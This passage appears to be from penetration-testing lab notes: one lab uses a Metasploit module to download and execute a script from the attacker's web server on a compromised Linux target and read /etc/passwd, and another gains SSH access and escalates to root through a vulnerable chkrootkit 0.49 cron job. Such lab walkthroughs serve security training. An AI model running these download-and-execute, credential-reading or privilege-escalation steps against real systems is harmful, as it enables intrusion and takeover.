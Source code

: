 ```shell
useradd nick
# Now, let’s run the Apache server on the attacker’s machine and copy the test.sh file in the root folder.
/etc/init.d/apache2 start
cp test.sh /var/www/html

# Now, let’s use the download and exec post-exploitation module on the target machine.
use post/linux/manage/download_exec
# This module is used to download a file from a remote server to the target Linux machine and execute it.
set URL http://<my_IP>/test.sh
set SESSION 1
run
# Let’s verify it by interacting with the session.
sessions -i 1
cat /etc/passwd
```

### 9.2. Linux Privilege Escalation - Rootkit Scanner

This lab focuses on exploiting a vulnerable rootkit scanner on a Linux server, guiding participants through steps such as identifying services, gaining initial access, and performing local privilege escalation.

**Objective:** Escalate to the root user on the target machine and retrieve the flag!

**SSH Login Credentials**: 
Username: jackie
Password: password

```shell
nmap -sS -sV <target_IP>
service postgresql start && msfconsole
use auxiliary/scanner/ssh/ssh_login
set RHOSTS <target_IP>
set USERNAME jackie
set PASSWORD password
exploit

# Interact with the shell session
sessions -i 1
# To identify the vulnerable program or service, we can list all running processes on the system using the following command:
ps aux
# Observe, that there are a couple of processes running i.e. cron and one bash script.
# Investigate the check-down bash script.
cat /bin/check-down
# The chkrootkit rootkit scanner is running as root every 60 seconds. Check the chkrootkit location and its version.
command -v chkrootkit
/bin/chkrootkit -V
# We found the chkrootkit binary location and its version. Searching privilege escalation exploit module for chkrootkit 0.49.

searchsploit chkrootkit 0.49

use exploit/unix/local/chkrootkit
set CHKROOTKIT /bin/chkrootkit
set SESSION <set_session_number>
set LHOST <target_IP>
exploit

cat /root/flag
```
